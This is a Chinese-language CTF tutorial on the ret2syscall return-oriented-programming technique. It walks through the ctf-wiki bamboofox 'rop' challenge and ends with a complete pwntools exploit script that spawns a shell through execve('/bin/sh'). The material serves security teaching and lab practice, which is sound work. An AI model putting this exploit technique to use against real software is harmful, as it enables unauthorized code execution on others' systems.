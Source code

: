 > 参考资料：[https://wiki.x10sec.org/pwn/stackoverflow/basic_rop/#ret2syscall](https://wiki.x10sec.org/pwn/stackoverflow/basic_rop/#ret2syscall)
>
> [https://baijiahao.baidu.com/s?id=1665277270769279870&wfr=spider&for=pc](https://baijiahao.baidu.com/s?id=1665277270769279870&wfr=spider&for=pc)
>

# 1、含义
顾名思义，ret to syscall，就是**<font style="color:#F5222D;">调用系统函数</font>**<font style="color:#000000;">以达到getshell的</font>目的

在计算中，系统调用是一种编程方式，计算机程序从该程序中向执行其的操作系统内核请求服务。这可能包括与硬件相关的服务（例如，访问硬盘驱动器），创建和执行新进程以及与诸如进程调度之类的集成内核服务进行通信。系统调用提供了进程与操作系统之间的基本接口。

至于系统调用在其中充当什么角色，稍后再看，现在我们要做的是：让程序调用execve("/bin/sh",NULL,NULL)函数即可拿到shell 

# 2、步骤
调用此函数的具体的步骤是这样的：因为该**<font style="color:#F5222D;">程序是 32 位</font>**，所以：

+ **<font style="color:#F5222D;">eax 应该为 0xb</font>**
+ **<font style="color:#F5222D;">ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以</font>**
+ **<font style="color:#F5222D;">ecx 应该为 0 </font>**
+ **<font style="color:#F5222D;">edx 应该为 0 </font>**
+ **<font style="color:#F5222D;">最后再执行int 0x80触发中断即可执行execve()获取shell</font>**

系统在运行的时候会使用上面四个寄存器，所以那么上面内容我们可以写为int 0x80(eax,ebx,ecx,edx)。只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们再执行 int 0x80 就可执行对应的系统调用。

> 使用前提，存在栈溢出
>

但是我们该怎么控制这些寄存器的值？

在我们最开始学习汇编函数的时候，我们最常用到的就是push，pop，ret指令，而这一次我们将使用pop和ret的组合来控制寄存器的值以及执行方向。例如：在一个栈上，**<font style="color:#F5222D;">假设栈顶的值为2，当我们pop eax,时，2就会存进eax寄存器</font>**。同样的，我们可以用同样的方法完成execve()函数参数的控制

```plain
pop eax# 系统调用号载入， execve为0xb
pop ebx# 第一个参数， /bin/sh的string
pop ecx# 第二个参数，0
pop edx# 第三个参数，0
```

这样寄存器的值可以控制了。然后使用gadgets让这一连串的pop命令顺序连接执行 ，最后使用的ret指令 ，进而控制程序执行流程。

> 简单的理解，gadgets就是程序中的小碎片，ret2syscall就是利用这些小碎片来拼成shell，使用int 0x80系统中断来执行execve()，从而达成控制系统的目的。
>

# 3、示例
> 附件下载：
>
> [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall)
>

首先将文件下载下来，看一下文件的基本信息：

```powershell
root@kali:~/桌面/CTF# file rop
rop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=2bff0285c2706a147e7b150493950de98f182b78, with debug_info, not stripped
root@kali:~/桌面/CTF# pwn checksec --file=rop
[*] '/root/\xe6\xa1\x8c\xe9\x9d\xa2/CTF/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
root@kali:~/桌面/CTF# 
```

32位程序，开了NX保护

> NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。栈溢出的核心就是通过局部变量覆盖返回地址，然后加入shellcode，NX策略是使栈区域的代码无法执行。
>
> **<font style="color:#F5222D;">当NX保护开启，就表示题目给了你全部</font>****<font style="color:#F5222D;">system（'/bin/sh'）</font>****<font style="color:#F5222D;">或部分</font>****<font style="color:#F5222D;">'/bin/sh'</font>****<font style="color:#F5222D;">，如果关闭，表示你需要自己去构造shellcode（ret2shellcode）</font>**
>

将文件直接扔到IDA中：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596511472713-ba6353a4-6e40-40ab-bdd5-0b39c8fc0b4d.png)

既然开了NX保护，我们就不能使用**ret2shellcode**，没有system函数，也无法使用ret2text，那我们使用一种全新的方法：ret2syscall。

从IDA可以看到：程序仍然使用了gets函数，存在栈溢出的条件。

很容易测得我们需要覆盖的返回地址相对于 v4 的偏移为 112。此次，由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得 shell（开了NX保护，栈上的代码无法执行），所以我们利用程序中的 gadgets 来获得 shell，而对应的 shell 获取则是利用系统调用。

在前面介绍过，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用execve(<font style="color:#0D904F;">"/bin/sh"</font>,<font style="color:#C2185B;">NULL</font>,<font style="color:#C2185B;">NULL</font>)系统调用来获取 shell。

其中，该**<font style="color:#F5222D;">程序是 32 位</font>**，所以我们需要使得

+ 系统调用号，即 eax 应该为 0xb
+ 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
+ 第二个参数，即 ecx 应该为 0
+ 第三个参数，即 edx 应该为 0

而我们如何控制这些寄存器的值 呢？这里就需要使用 gadgets。具体寻找 gadgets的方法，我们可以使用 ropgadgets 这个工具。

首先，我们来寻找控制 eax 的gadgets：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596511922865-e7e8c3e8-b417-4768-8071-adabdfa89891.png)

可以看到有上述几个都可以控制 eax，我选取第二个来作为 gadgets。

类似的，我们可以得到控制其它寄存器的 gadgets

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596512002458-e080604e-f4df-4f28-91db-ae3ef55c5904.png)

这里，我选择

> 0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret    //这个可以直接控制其它三个寄存器。
>

此外，我们需要获得 /bin/sh 字符串对应的地址。

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596512082050-4ae27918-0bef-4b07-a959-1d1a1cb494b9.png)

可以找到对应的地址，此外，还有 int 0x80 的地址，如下

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596512151344-7cc9a0d2-a546-4a7e-830d-12726b218c18.png)

同时，也找到对应的地址了。

下面就是对应的 payload，其中 0xb 为 execve 对应的系统调用号。

> 参考资料：[https://blog.csdn.net/YL970302/article/details/89930425](https://blog.csdn.net/YL970302/article/details/89930425)
>
> 在Linux中，每个系统调用被赋予一个系统调用号。这样，通过独一无二的号就可以关联系统调用。当用户空间的进程执行一个系统调用的时候，这个系统调用号就用来指明到底是要执行哪个系统调用；进程不会提及系统调用的名称。
>

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596514120671-7336f901-c7b8-4802-bec5-f09a21823ec4.png)

成功getshell

![](https://cdn.nlark.com/yuque/0/2020/jpeg/574026/1596514325017-e9bf40f6-f13b-4acb-b01c-ae38e1e71398.jpeg)

